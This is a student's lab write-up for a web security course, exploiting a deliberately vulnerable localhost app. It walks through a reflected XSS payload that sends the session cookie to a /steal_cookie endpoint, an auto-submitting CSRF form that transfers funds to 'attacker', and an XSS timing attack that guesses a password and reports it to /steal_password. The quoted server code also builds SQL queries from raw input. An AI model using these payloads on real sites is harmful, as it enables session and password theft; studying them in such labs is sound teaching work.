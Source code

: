 # Part 1

---

1. `Alpha` Exploit: `Cookie` Theft

Based on the given code, we find out that the vulnerable part of the code is placed in the `/profile` path of the website. The code is located in the `handout/hw2-1/router.js` file. The code is as follows:

```javascript
router.get('/profile', asyncMiddleware(async (req, res, next) => {
  if(req.session.loggedIn == false) {
    render(req, res, next, 'login/form', 'Login', 
            'You must be logged in to use this feature!');
    return;
  };

  if(req.query.username != null) { // if visitor makes a search query
    const db = await dbPromise;
    const query = `SELECT * FROM Users WHERE username == "${req.query.username}";`;
    let result;
    try {
      result = await db.get(query);
    } catch(err) {
      result = false;
    }
    if(result) { // if user exists
      render(req, res, next, 'profile/view', 'View Profile', false, result);
    }
    else { // user does not exist
      render(req, res, next, 'profile/view', 'View Profile',
       `${req.query.username} does not exist!`, req.session.account);
    }
  } else { // visitor did not make query, show them their own profile
    render(req, res, next, 'profile/view', 'View Profile', false, req.session.account);
  }
}));
```

As we can see, if **the user does not exist**, the code will render the `profile/view` page with the message `"<username> does not exist!"`. This is the vulnerable part of the code. We can exploit this by sending a request to the `/profile` path with a query parameter `username` that does not exist in the database. We can use this to steal the cookie of the user by sending a malicious request, for example a request with a script that gets the cookie and sends it to our server, placed in the `username` query parameter.

We have to create a `URL` that starts with:

```url
http://localhost:3000/profile?username=
```

The url is followed by the script that gets the cookie and sends it to our server. The script is as follows:

+ Before sending the request, we hide the tags with `error` tags to hide the `does not exist` error message. This can be done by adding the first line of the script.

```javascript
<script>
document.getElementsByClassName('error')[0].style.visibility = 'hidden';
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://localhost:3000/steal_cookie?cookie=" +
                document.cookie.split('=')[1], true);
xhr.send();
</script>
```

Then, we encode the script and add it to the `username` query parameter. The final URL is:[^1]

```url
http://localhost:3000/profile?username=%3Cscript%3E%0
Adocument.getElementsByClassName('error')%5B0%5D.style.
visibility%20%3D%20'hidden'%3B%0Avar%20xhr%20%3D%20new
%20XMLHttpRequest()%3B%0Axhr.open(%22GET%22%2C%20%22
http%3A%2F%2Flocalhost%3A3000%2Fsteal_cookie
%3Fcookie%3D%22%20%2B%20document.cookie.split('%3D')
%5B1%5D%2C%20true)%3B%0Axhr.send()%3B%0A%3C%2Fscript%3E
```

[^1]: The script is encoded using the `URL` online encoder tool: [lambdatest.com/free-online-tools/url-encode](https://www.lambdatest.com/free-online-tools/url-encode).

---

2. `Bravo` Exploit: Cross-site request forgery (`CSRF`)

Here is our code for the `CSRF` exploit:

```html
<!DOCTYPE html>
<html>
    <head>
        <script>
            const hijack_url = "http://sharif.edu/~kharrazi/courses/40441-011/";
            var submitted = false;
            function transfer_bar() {
                document.transfer_form.submit();
                submitted = true;
            }
            function hijack() {
                if (submitted) {
                    window.location.replace(hijack_url);
                }
            }
        </script>
    </head>
    <body onload="transfer_bar()">
        <form target="transformFrame" name="transfer_form" action="http://localhost:3000/post_transfer" method="POST">
            <input hidden="true" type="text" name="destination_username" value="attacker">
            <input hidden="true" type="text" name="quantity" value="10">
            <!-- <input hidden = "true" type="submit" value="Submit request"> -->
        </form>
        <iframe hidden="true" name="transformFrame" id="transformFrame" onload="hijack()"></iframe>
    </body>
</html>
```

The code is a simple `HTML` page that contains a form with two hidden inputs. The form is submitted automatically when the page is loaded. Then it sends a `POST` request to the `/post_transfer` path of the website. The form contains two hidden inputs: `destination_username` and `quantity`. The `destination_username` is set to `attacker` and the `quantity` is set to `10`. The form is submitted to the `transformFrame` iframe. The iframe is hidden and has an `onload` event listener that redirects the user to the `hijack_url`. I used a boolean variable `submitted` to check if the form has been submitted. If the form has been submitted, the user is hijacked.

---

3. `Gamma` Exploit: Timing Attack

```js
router.get('/get_login', asyncMiddleware(async (req, res, next) => {
  const db = await dbPromise;
  const query = `SELECT * FROM Users WHERE username == "${req.query.username}";`;
  const result = await db.get(query);
  if(result) { // if this username actually exists
    if(checkPassword(req.query.password, result)) { // if password is valid
      await sleep(2000);
      req.session.loggedIn = true;
      req.session.account = result;
      render(req, res, next, 'login/success', 'Bitbar Home');
      return;
    }
  }
  render(req, res, next, 'login/form', 'Login', 'This username and password combination does not exist!');
}));
```

This part of the code is vulnerable to a timing attack. When the username and password exists in the database, there is a `2000` milliseconds delay before the user is logged in. We can exploit this by sending a request to the `/get_login` path.

```html
<span style='display:none'>
  <iMg id='test'/>
  <sCript>
    var dictionary = [`password`, `123456`, `	12345678`, `dragon`, `1234`, `qwerty`, `12345`];
    var index = 0;
    var longest_time = 0;
    var pass_idx = 0;
    var password = dictionary[index];
    var test = document.getElementById(`test`);
    test.onerror = () => {
      var end = new Date();
      var time_elapsed = end - start;
      if (time_elapsed > longest_time) {
        longest_time = time_elapsed;
        pass_idx = index;
      }
      console.log(`Time elapsed ${end-start}`);
      start = new Date();
      password = dictionary[index];
      if (index < dictionary.length) {
        test.src = `http://localhost:3000/get_login?username=userx&password=${password}`;
      } else {
        theft_url = `http://localhost:3000/steal_password?password=${dictionary[pass_idx]}&timeElapsed=${longest_time}`;
        const theft = new Image();
        theft.src = theft_url;
      }
      index += 1;
    };
    var start = new Date();
    test.src = `http://localhost:3000/get_login?username=userx&password=${password}`;
    index += 1;
  </sCript>
</span>
```

We iterate on the passwords in the `dictionary` array and send a request to the `/get_login` path with the username `userx` and the password from the `dictionary` array. We measure the time it takes for the server to respond. We keep track of the longest time it takes for the server to respond. After we have iterated over all the passwords in the `dictionary` array, we send a request to the `/steal_password` path with the password that took the longest time to respond and the time it took to respond. We can use this to find the correct password.


